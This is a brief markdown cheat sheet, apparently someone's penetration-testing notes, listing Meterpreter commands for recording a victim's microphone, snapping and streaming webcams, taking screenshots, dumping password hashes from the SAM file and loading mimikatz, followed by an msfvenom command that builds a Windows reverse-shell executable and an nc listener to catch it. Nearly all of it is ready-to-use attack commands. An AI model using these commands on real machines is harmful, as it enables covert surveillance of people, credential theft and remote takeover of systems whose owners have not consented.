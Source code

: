 			Meterpreter
### Webcam
- `record_mic`     Record audio from the default microphone for X seconds
- `webcam_chat`    Start a video chat
- `webcam_list`    List webcams
- `webcam_snap`    Take a snapshot from the specified webcam
- `webcam_stream`  Play a video stream from the specified webcam

### Misc

- `hashdump` will retrieve all hashed frm sam file
- `load kiwi` will in let us use mimikatz
- `screenshot` Grab a screenshot of the interactive desktop
- `shell`  get a shell on remote machine

# MSFvenoim
WINDOWS reverse shell
- get ip `ip a`
- `msfvenom -p windows/shell_reverse_tcp lhost=$IP lport=443 -f exe > shell.exe`
- `nc -lvnp 443`




https://www.hackingarticles.in/msfvenom-cheatsheet-windows-exploitation/